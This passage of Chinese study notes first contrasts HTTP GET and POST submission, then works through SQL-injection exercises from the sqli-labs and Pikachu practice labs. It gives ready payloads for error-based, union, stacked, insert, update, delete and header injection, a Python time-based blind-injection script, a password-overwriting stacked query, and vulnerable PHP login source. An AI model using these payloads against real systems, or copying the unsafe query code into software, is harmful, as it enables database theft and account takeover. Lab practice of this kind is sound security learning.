    <h2>POST 方法</h2>
    <form action="https://httpbin.org/post" method="post" target="_blank">
        <input type="text" name="username" placeholder="用户名" required>
        <input type="password" name="password" placeholder="密码" required>
        <button type="submit">POST 提交</button>
    </form>
</body>
</html>
```

---

### **2. 实际测试步骤**
#### (1) 提交 GET 表单
- **操作**：输入用户名 `test` 和密码 `123456`，点击 "GET 提交"
- **效果**：
  - 浏览器地址栏变为：  
    `https://httpbin.org/get?username=test&password=123456`
  - **明文暴露敏感信息**（密码直接显示在 URL 中）
  - 页面返回的 JSON 数据会包含 URL 参数：
    ```json
    {
      "args": {
        "password": "123456",
        "username": "test"
      },
      "headers": { ... },
      "url": "https://httpbin.org/get?username=test&password=123456"
    }
    ```

#### (2) 提交 POST 表单
- **操作**：输入相同内容，点击 "POST 提交"
- **效果**：
  - 浏览器地址栏保持为：`https://httpbin.org/post`
  - **数据不可见**（密码不会出现在 URL 中）
  - 页面返回的 JSON 数据中参数在请求体中：
    ```json
    {
      "data": "",
      "form": {
        "password": "123456",
        "username": "test"
      },
      "headers": {
        "Content-Type": "application/x-www-form-urlencoded"
      },
      "url": "https://httpbin.org/post"
    }
    ```

---

### **3. 通过开发者工具观察本质差异**
#### (1) 打开开发者工具（F12）
选择 **Network（网络）** 标签，勾选 **Preserve log（保留日志）**。

#### (2) GET 请求详情
- **Headers 标签**：
  ```http
  GET /get?username=test&password=123456 HTTP/1.1
  Host: httpbin.org
  ```
- **没有 Request Payload**（数据在 URL 中）

#### (3) POST 请求详情
- **Headers 标签**：
  ```http
  POST /post HTTP/1.1
  Host: httpbin.org
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 29
  ```
- **Request Payload 标签**：
  
  ```text
  username=test&password=123456
  ```

---

### **4. 关键差异总结**
| 对比维度     | GET 方法                             | POST 方法                                |
| ------------ | ------------------------------------ | ---------------------------------------- |
| **安全性**   | 数据直接暴露在地址栏和历史记录       | 数据隐藏在请求体中（仍需 HTTPS 加密）    |
| **数据长度** | 受限于 URL 长度（约 2000 字符）      | 理论上无限制（服务器可配置限制）         |
| **缓存行为** | 浏览器会缓存 GET 请求结果            | 默认不缓存                               |
| **页面刷新** | 刷新时浏览器不会重新提交数据（幂等） | 刷新时浏览器会提示重新提交数据（非幂等） |

---

### **5. 安全警告**
- 即使使用 POST，**密码等敏感信息仍需通过 HTTPS 加密传输**，否则请求体仍可被中间人截获。
- 前端密码字段应使用 `<input type="password">` 隐藏输入内容。


## Less-11

> [!important]
>
> 说一个问题: 我发现一个问题，在输入框中输入与使用`burpsuite`进行修改内容，分别出现两种情况，其中在输入框中的数据不会进行SQL注入，但是在`burpsuite`修改可以进行SQL注入，所以我猜测在前端进行了过滤手段，我通过禁用`javascript`发现我想的没错
>
> 自行尝试

对之前学习过的东西进行复习，其中下列表为每个版本所适用的函数

| 报错函数           | 数据库版本 （只验证了5.0.96、5.1.60、5.5.29、5.7.26、8.0.12） |
| ------------------ | ------------------------------------------------------------ |
| extractvalue       | 5.1.60、5.5.29、5.7.26、8.0.12                               |
| updatexml          | 5.1.60、5.5.29、5.7.26、8.0.12                               |
| floor              | 5.0.96、5.1.60、5.5.29、5.7.26                               |
| exp                | 5.5.29                                                       |
| GeometryCollection | 5.1.60、5.5.29                                               |
| linestring         | 5.1.60、5.5.29                                               |


### 报错注入

##### extractvalue

payload : `dumb' and extractvalue(1,concat('~',database())) #`


> [!important]
>
> 在post方法中，后端不会对数据进行url解码，所以可以直接使用`#`


##### updatexml

> [!tip]
>
> updatexml与extractvalue这两个函数其实很容易区分，一个替换，一个是查询。


payload: `dumb' and updateXML(1,concat('~',database()),1)#`


### 联合注入

> [!CAUTION]
>
> 注意对齐数量。并且需要前面的报错

payload : `-dumb' union select 1,group_concat(schema_name) from information_schema.schemata #`


> [!tip]
>
> 注意字符必须为英文字符，还有就是报错注入字符的长度为32


### 布尔注入

这个使用`dumb’ and 1 #` 就能知道能否使用布尔注入了

脚本编写

```python
## 只写一个数据库获取
import requests
import re
import string
import time
ans = ''
i = 1
vis = 0
while True:
    print("*"*15,i,"*"*15)
    max = 128
    min = 32
    while max != min:
        mid = (max+min)//2  # 记住，向下整除才可以实现后面的退出判断
        url = "http://10.10.128.147/sql_labs/sql/Less-11/"
        data = {
            "uname":
            f"dumb' and if(ord(substr((select group_concat(schema_name) from information_schema.schemata),{i},1))>{mid},sleep(3),1) #",
            "passwd":
            "admin",
            "submit":
            "submit"
        }

        start_time = time.time()
        print("[*]",data["uname"])
        res = requests.post(url,data=data).text

        if min + 1 == max:
            break

        if time.time() - start_time > 3:# 判断返回的数据是否有正确返回的数据
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    i += 1
    if chr(max) == '!':
        vis += 1
    if vis == 2:
        break
    ans += chr(max)
    print(ans)
print(ans)
```


# 堆叠注入

堆叠注入，从名词的含义就可以看到应该是**一堆 SQL 语句（多条）一起执行**。

union injection(联合注入)也是将两条语句合并在一起，，他们之间的区别就是union注入执行的语句是有限的，而堆叠注入可以执行任意语句.示例：

```mysql
mysql> select * from users where id ='1';create table test like users;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
Query OK, 0 rows affected (0.02 sec)


mysql> show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| referers           |
| test               |
| uagents            |
| users              |
+--------------------+
5 rows in set (0.00 sec)


mysql> select * from users where id ='1';drop table test;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
Query OK, 0 rows affected (0.00 sec)
mysql> show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| referers           |
| uagents            |
| users              |
+--------------------+
4 rows in set (0.00 sec)
```


login源码

`42,43`为重点关注行,`25,26`为次重要

其中`mysqli_real_escape_string`函数用于过滤特殊符号

` Mysqli_multi_query`允许运行多条SQL语句

```php+HTML
<html>
<head>
</head>
<body bgcolor="#000000">
<font size="3" color="#FFFF00">
<div align="right">
<a style="font-size:.8em;color:#FFFF00" href='index.php'></br>HOME</a>
</div>
<?php

session_start();
//including the Mysql connect parameters.
include("../sql-connections/db-creds.inc");


function sqllogin($host,$dbuser,$dbpass, $dbname){
   // connectivity
//mysql connections for stacked query examples.
$con1 = mysqli_connect($host,$dbuser,$dbpass, $dbname);
   
   $username = mysqli_real_escape_string($con1, $_POST["login_user"]);
   $password = $_POST["login_password"];

   // Check connection
   if (mysqli_connect_errno($con1))
   {
       echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
   else
   {
       @mysqli_select_db($con1, $dbname) or die ( "Unable to connect to the database ######: ");
   }


   /* execute multi query */

   
   $sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
   if (@mysqli_multi_query($con1, $sql))
   {
        /* store first result set */
      if($result = @mysqli_store_result($con1))
      {
	 if($row = @mysqli_fetch_row($result))
	 {
	    if ($row[1])
	    {
	       return $row[1];
	    }
	    else
	    {
	       return 0;
	    }
	 }
      }
      
    }
}


$login = sqllogin($host,$dbuser,$dbpass, $dbname);
if (!$login== 0) 
{
	$_SESSION["username"] = $login;
	setcookie("Auth", 1, time()+3600);  /* expire in 15 Minutes */
	header('Location: logged-in.php');
} 
else
{
?>
<tr><td colspan="2" style="text-align:center;"><br/><p style="color:#FF0000;">
<center>

</center>
</p></td></tr>
<?php
} 
?>


</body>
</html>

```

示例：payload `login_user=admin&login_password=admin';update users set password="123123" where username='admin';# &mysubmit=Login`

可以将密码进行修改，自行测试。


需要展现`flag`,还是需要使用`union`

`login_user=admin&login_password=1' union select 1,2,3 %23&mysubmit=Login`

`login_user=admin&login_password=1' union select 1,(select flag from answers.flags where stage=12),3 %23&mysubmit=Login`

> [!tip]
>
> 可以使用堆叠查询是因为 Web 应用程序使用了 mysqli_multi_query 函数堆叠注入一般难以遇到，遇到则能够发挥巨大的攻击效用。


# update注入\insert注入

update注入的原理: 通过联合报错注入，让他提前闭合来进行报错。

示例源码: `insert into users(id,name,password) values(1,"张三",123456)`

其中values为注入点，所以需要在注入点完成括号闭合`)`,其中`values`中的值可能会被“”或者‘’包裹，所以根据需要进行改变

示例payload : `id=1' and extractvalue(1,concat('~',database())) and "",'22','33') #`

> [!tip]
>
> 插入的数据库标题有多少个就后面跟上多少个数，


## pikachu_insert注入

payload : `username=1' or updatexml(1,concat(0x7e,(select database()),0x7e),1) ,'22','33','44','55','66')#&password=666666&sex=&phonenum=&email=&add=&submit=submit`


或者`username=1' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or' &password=666666&sex=&phonenum=&email=&add=&submit=submit`

后端源码: 

`insert into member(username,pw,sex,phonenum,email,address) values('' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),1)or'',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')" `

> [!important]
>
> 记住，必须使用空的来进行，否则会正确创建用户，因为使用的是or，一旦出现一个true就不会报错。


extractvalue报错 payload : `' or extractvalue(1, concat('~', (select group_concat(schema_name) from information_schema.schemata))) or '`


### pikachu_update注入

源码: `update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}' `


# del注入

直接看示例: 

pikachu_del 源码： `delete from message where id={$_GET['id']}`

payload : `?id=1 or extractvalue(1,concat('~',database()))`


# http header 注入

先进行登录，然后再对http header头进行修改，之所以能够进行http header 注入，很大的原因是因为这里面进行回显。


payload : `' or extractvalue(1,concat('~',database())) or '`

成功图:


